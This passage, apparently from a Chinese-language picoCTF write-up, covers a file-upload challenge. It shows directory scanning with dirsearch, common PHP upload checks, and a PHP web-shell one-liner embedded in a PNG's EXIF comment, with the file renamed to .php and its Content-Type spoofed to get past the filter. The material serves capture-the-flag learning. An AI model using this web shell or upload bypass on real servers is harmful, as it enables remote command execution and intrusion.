 ```php=
    curl_close($ch);
} else {
    echo 'Failed to read flag file.';
}
?>

```
:question: 可以把png嵌入php上傳，但php無法執行。

#### 3. Dirsearch Tools
```command
dirsearch -u http://atlas.picoctf.net:64632/
```
![image](https://hackmd.io/_uploads/BJhGU5y0a.png)

> 看到 /uploads 路徑 301

#### 4. png 塞入php後門
> [!NOTE]
>常見的上傳檔案格式判斷
>
>(1) HTML顯示 only png，內部沒有過濾
>```php
>$filename = basename($_FILES['image_file']['name']);
>```
>
>(2) 判斷filename
>```php
>$filename = basename($_FILES['image_file']['name']);
>$extension = strtolower(explode(".", $filename)[1]);
>if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false)
>```
>
>(3)判斷filename & file information
>```php
>$filename = basename($_FILES['image_file']['name']);
>$extension = strtolower(explode(".", $filename)[1]);
>if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false)
>使用者上傳檔案時，getimagesize取得圖像檔案的資訊
>list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);
>if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false)
>```

```
exiftool -Comment='<?php system($_GET["cmd"]); ?>' CTF.png
mv CTF.png CTF.png.php
```

![image](https://hackmd.io/_uploads/r1TSs5kAT.png)

(UPLOAD) 更改Content-Type: image/png
![image](https://hackmd.io/_uploads/r1vTkoyRp.png)

